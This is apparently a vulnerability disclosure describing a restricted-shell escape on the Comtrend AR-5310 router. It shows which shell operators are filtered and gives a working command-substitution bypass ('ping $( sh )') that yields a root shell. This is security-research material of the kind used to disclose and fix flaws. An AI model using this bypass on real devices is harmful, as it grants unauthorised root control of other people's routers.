 **Disclaimer: All content here is to raise awareness and is not intended for malicious use.**

Vulnerable product: Comtrend AR-5310 , firmware version: GE31-412SSG-C01_R10.A2pG039u.d24k

TL;DR: A local user can bypass the restricted shell using the command substitution operator $( commmand )

Comtrend AR 5310 routers have a restricted shell, the list of command a user can execute is

[ ? help logout exit quit reboot ads lxdslctl xtm loglevel logdest virtualserver ddns dumpcfg 
dumpmdm meminfo psp dumpsysinfo dnsproxy syslog ifconfig ping sntp sysinfo tftp wlan wlctl
vlanctl arp defaultgateway dhcpserver dns lan lanhosts passwd ppp restoredefault route
nslookup traceroute save uptime exitOnIdle wan build version serialnumber modelname acccntr
upnp urlfilter timeres tr69cfg logouttime ipneigh dhcp6sinfo nat mcpctl ]



Usual terminal constructs like:
 - the command separator ";" 
 - the control operator  "&"  (run in forground) 
 - the redirection operator (pipe) "|" 
 - the command substitution operator "`"
 
are all filtered as shown here :
```
 > ;
Warning: operator ; is not supported!
telnetd:error:476.449:processInput:490:unrecognized command 
 > |
Warning: operator | is not supported!
telnetd:error:484.871:processInput:490:unrecognized command 
 > &
Warning: operator & is not supported!
telnetd:error:487.421:processInput:490:unrecognized command 
 > `
Warning: operator ` is not supported!
telnetd:error:495.334:processInput:490:unrecognized command 
```

Still the $ operator is not filtered:
```
 > $
telnetd:error:497.862:processInput:490:unrecognized command $
```

Here i came to the conclusion that invoking a command with $( subcommend ) as argument would 
give an obvious shell
```
> ping $( sh )                                                              
exec >&2                                                                     
ps x | grep telnet                                                           
18333 root      4164 S    telnetd -m 0                                       
18334 root      4168 S    telnetd -m 0                                       
```

**EOF**

